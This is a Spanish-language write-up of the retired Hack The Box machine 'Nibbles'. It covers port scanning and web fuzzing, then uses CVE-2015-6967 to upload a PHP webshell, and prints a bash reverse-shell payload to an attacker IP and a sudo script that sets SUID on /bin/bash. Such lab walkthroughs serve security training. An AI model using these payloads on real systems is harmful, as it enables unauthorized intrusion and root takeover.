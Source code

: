 ```yaml
---
title: "Nibbles"
layout: "post"
categories: [ "HTB - Retired Machines", "Easy" ]
tags: [ "sudo", "nmap", "ffuf", "curl", "wappalyzer" ]
---
```


## Info

![Nibbles](/assets/posts/2025-09-06-nibbles-machines-htb/01_nibbles.png)
*Nibbles - HTB (Easy)*

En este post, voy a compartir cómo resolví la máquina retirada **Nibbles** de Hack the Box, clasificada como *Easy*.

## Nmap

Comienzo verificando si el host está activo. Para ello, envio un paquete **ICMP** hacia la IP del objetivo.

```shell
ping -c 1 "IP_VICTIM"
```
Como respondió correctamente, realizamos un escaneo completo de puertos usando `nmap`:

```shell
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv "IP_VICTIM" -oG allPorts
```
Explicación de los parámetros.

- `-p-`: Escanea todo el rango de puertos del 1-65535.
- `--open`: Muestra solo los puertos abiertos.
- `-sS`: Realiza un escaneo TCP SYN (Stealth Scan).
- `--min-rate 5000`: Establece una velocidad mínima de 5000 paquetes por segundo.
- `-n`: No realizar resolución DNS.
- `-Pn`: Omite el descubrimiento de hosts.
- `-vvv`: Muestra información detallada durante el escaneo.
- `-oG`: Exporta el output en formato "grepable" en el archivo **allPorts**.

Una vez terminado el escaneo, utilicé la función [extractPorts](https://pastebin.com/xNaZxRGA) para extraer los puertos abiertos y copiarlos al portapapeles.

El escaneo revela dos puertos abiertos: **22 (SSH)** y **80 (HTTP)**. Para obtener más información, hago un escaneo de versiones y servicios de los puertos descubiertos:

```shell
nmap -sCV -p22,80 "IP_VICTIM" -oN version
```

- `-sC`: Realiza un escaneo usando un conjunto de scripts por defecto que incluyen: discovery, intrusive, etc.
- `-sV`: Habilita la detección de versión y servicio para cada uno de estos puertos. 
- `-p`: Escanear solo los puertos específicados.
- `-oN`: Exportar el output en formato normal hacia el archivo **version**

Los resultados muestran que el sistema corre **Apache** y **OpenSSH**. Usando la versión de `OpenSSH`, identifico que el sistema probablemente se basa en **Ubuntu Xenial (16.04)**.

![Nibbles](/assets/posts/2025-09-06-nibbles-machines-htb/02_nibbles.png)
*Launchpad*

## Enumeración Web

Accedo desde el navegador al puerto 80 del objetivo, donde me encuentro con una simple página de bienvenida. En seguida, revisó el código fuente, y se revela una ruta interesante:

![Nibbles](/assets/posts/2025-09-06-nibbles-machines-htb/04_nibbles.png)
*Source Code*

### Fingerprinting

Al visitar ese endpoint, soy redirigido a un CMS llamado **Nibbleblog**. Uso herramientas como `WhatWeb` y `Wappalyzer` para identificar las tecnologías del sitio.

![Nibbles](/assets/posts/2025-09-06-nibbles-machines-htb/05_nibbles.png)
*Wappalyzer*

Ambas confirman el uso de:

- `PHP`
- `Apache`
- `jQuery`
- `CMS`: [Nibbleblog](https://code.google.com/archive/p/nibbleblog/)

Dado que el lenguaje de programación del backend es `PHP`, empiezo a pensar en posibles vectores de **RCE** a través de la carga de archivos.

### ffuf 

A continuación, realizo fuzzing con `ffuf` (puedes usar `dirsearch`, `gobuster` , `wfuzz`, etc) utilizando un diccionario de [SecLists](https://github.com/danielmiessler/SecLists).

```shell
ffuf -c -ic -w /usr/share/wordlists/SecLists-2025.2/Discovery/Web-Content/common.txt -u http://IP_VICTIM/nibbleblog/FUZZ -mc all -fc 404
```
![Nibbles](/assets/posts/2025-09-06-nibbles-machines-htb/06_nibbles.png)
*Output ffuf*

Encuentro algunos recursos interesantes:

- `/README`: Muestra la versión del CMS. 
- `/admin.php`: Panel de login.
- `/plugins`: Capacidad de directory listing habilitado.
- `/content/users.xml`: Encuentro un nombre de usuario válido. 

Intento ingresar al panel de login (`/admin.php`) usando el usuario encontrado y algunas [contraseñas comunes](https://venturebeat.com/security/the-top-20-admin-passwords-will-have-you-facepalming-hard). Sin embargo, tras varios intentos, desencadena un bloqueo temporal de mis solicitudes y el servidor devuelve un mensaje de protección:

![Nibbles](/assets/posts/2025-09-06-nibbles-machines-htb/07_nibbles.png)

Esto indica que **no vale la pena insistir la fuerza bruta**. Entonces, deduzco que podría ser una contraseña simple basada en el nombre del sitio, pruebo con posibles variantes como: `Nibbles`, `nibbles`, `NIBBLES`, y... ¡logro acceder como el usuario **admin**!

## Explotación 

Una vez dentro, verifico la versión exacta del CMS e investigo posibles vulnerabilidades conocidas usando estas palabras clave: `Nibbleblog 4.0.3 exploit`. Encuentro una que destaca: `CVE-2015-6967`, que permite la carga arbitraria de archivos si se tiene acceso autenticado.

![Nibbles](/assets/posts/2025-09-06-nibbles-machines-htb/03_nibbles.png)
*README*

![Nibbles](/assets/posts/2025-09-06-nibbles-machines-htb/08_nibbles.png)

Este [artículo](https://systemweakness.com/a-look-at-cve-2015-6967-fe9a990d57a1) explica bien cómo funciona la vulnerabilidad. En resumen, el ataque se acontece utilizando el plugin `My Image`, que permite subir **cualquier archivo independientemente de su extensión** dándome total libertad a cargar archivos PHP.

Creo una webshell simple en mi máquina y la almaceno como `shell.php`:

```php
<?php
    system($_GET['cmd']);
?>
```

Subo el archivo a través del plugin. Aunque se muestran varios errores, el mensaje indica que el archivo ha sido subido exitosamente.

![Nibbles](/assets/posts/2025-09-06-nibbles-machines-htb/09_nibbles.png)
*Plugin My Image - Upload shell.php*

Según el artículo, los archivos se almacenan en: `/content/private/plugins/my_image`. Accedo a esta ruta, y ejecuto comandos a través del parámetro `cmd` del archivo `image.php`:

```shell
http://IP_VICTIM/nibbleblog/content/private/plugins/my_image/image.php?cmd=cat /etc/passwd
```

![Nibbles](/assets/posts/2025-09-06-nibbles-machines-htb/10_nibbles.png)
*Reading /etc/passwd*

¡Confirmado! Tengo **RCE**. Para obtener una **reverse shell**, usaré el primer payload de [PentestMonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

```shell
http://IP_VICTIM/nibbleblog/content/private/plugins/my_image/image.php?cmd=bash -c 'bash -i >%26 /dev/tcp/YOUR_IP/443 0>%261'
```
> Nota: Reemplazo `&` por `%26` usando URL encoding. 

Por otro lado en mi host, me pongo a la escucha con `nc`:

```shell
nc -lnvp 443
```

- `-l`: Escucha conexiones entrantes.
- `-n`: Omitir la resolución DNS.
- `-v`: Muestra información detallada.
- `-p`: Especifica el puerto en el que debe escuchar (443 en este caso).

Una vez que ejecuto el payload se ejecuta, tengo una shell.

![Nibbles](/assets/posts/2025-09-06-nibbles-machines-htb/11_nibbles.png)

## User shell

Antes de continuar, realizaré el tratamiento de la TTY para obtener una full TTY funcional.

```shell
script /dev/null -c bash
# [ Ctrl + Z ]

stty raw -echo; fg
reset xterm
export TERM=xterm
```

Y también ajusto la proporción de las filas y columnas:

```shell
# En mi máquina 
stty size

# En Nibbles
stty rows 45 columns 184
```

Encuentro la **user flag** en el directorio personal del usuario:

![Nibbles](/assets/posts/2025-09-06-nibbles-machines-htb/12_nibbles.png)

## Privilege Escalation

Verifico permisos `sudo`:

![Nibbles](/assets/posts/2025-09-06-nibbles-machines-htb/13_nibbles.png)

El resultado muestra que puedo ejecutar un script como `root`, sin proporcionar contraseña. Aunque el script aún no existe, tengo permisos de escritura, por lo que puedo crearlo.

![Nibbles](/assets/posts/2025-09-06-nibbles-machines-htb/14_nibbles.png)

El script contiene estas instrucciones:

```shell
#!/bin/bash

chmod 4755 /bin/bash
```

Ejecuto este script con `sudo`:

```shell
sudo -u root /home/nibbler/personal/stuff/monitor.sh
```

Esto le asigna el **bit SUID** a `/bin/bash`. Verifico los permisos, y abro una shell con privilegios elevados:

![Nibbles](/assets/posts/2025-09-06-nibbles-machines-htb/15_nibbles.png)

Finalmente, tengo acceso como root:

![Nibbles](/assets/posts/2025-09-06-nibbles-machines-htb/16_nibbles.png)
